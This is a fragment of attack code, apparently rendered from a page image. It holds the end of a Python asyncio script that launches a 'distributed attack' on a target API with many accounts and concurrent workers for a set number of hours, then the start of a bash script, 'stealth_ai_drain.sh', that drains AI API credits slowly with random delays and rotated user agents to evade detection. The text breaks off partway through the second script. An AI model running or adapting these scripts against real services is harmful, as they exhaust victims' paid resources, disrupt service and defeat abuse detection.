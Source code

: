 ```python
    print(f"\n[+] Starting distributed attack with {len(ACCOUNTS)} accounts")
    print(f"[+] Max concurrent requests: {MAX_CONCURRENT}")
    print(f"[+] Target duration: {ATTACK_DURATION_HOURS} hours")
    print(f"[+] Target API: {TARGET_API}")
    print()
    
    async with aiohttp.ClientSession() as session:
        # Create worker tasks
        tasks = [
            attack_worker(session, account, semaphore, stop_event)
            for account in ACCOUNTS
        ]
        
        # Add statistics reporter
        async def stats_reporter():
            while not stop_event.is_set():
                await asyncio.sleep(60)  # Report every minute
                stats.print_stats()
        
        tasks.append(stats_reporter())
        
        # Run for specified duration
        try:
            await asyncio.wait_for(
                asyncio.gather(*tasks),
                timeout=ATTACK_DURATION_HOURS * 3600
            )
        except asyncio.TimeoutError:
            print("\n[+] Attack duration reached")
        except KeyboardInterrupt:
            print("\n[+] Attack interrupted by user")
        finally:
            stop_event.set()
            stats.print_stats()

if __name__ == "__main__":
    asyncio.run(main())
```

**Stealth Mode: Slow and Low Attack**
```bash
#!/bin/bash
# stealth_ai_drain.sh - Evade detection with slow, distributed requests

TARGET_API="https://api.example.com"
TOKEN="token_here"

echo "[+] Starting stealth AI credit drain..."
echo "[+] This attack runs slowly to evade detection systems"

# Randomize request timing (5-15 minutes between requests)
random_delay() {
  DELAY=$((300 + RANDOM % 600))  # 5-15 minutes
  echo "[*] Waiting ${DELAY} seconds before next request..."
  sleep $DELAY
}

# Rotate user agents
USER_AGENTS=(
  "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
  "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36"
  "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
  "Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15"
)
```
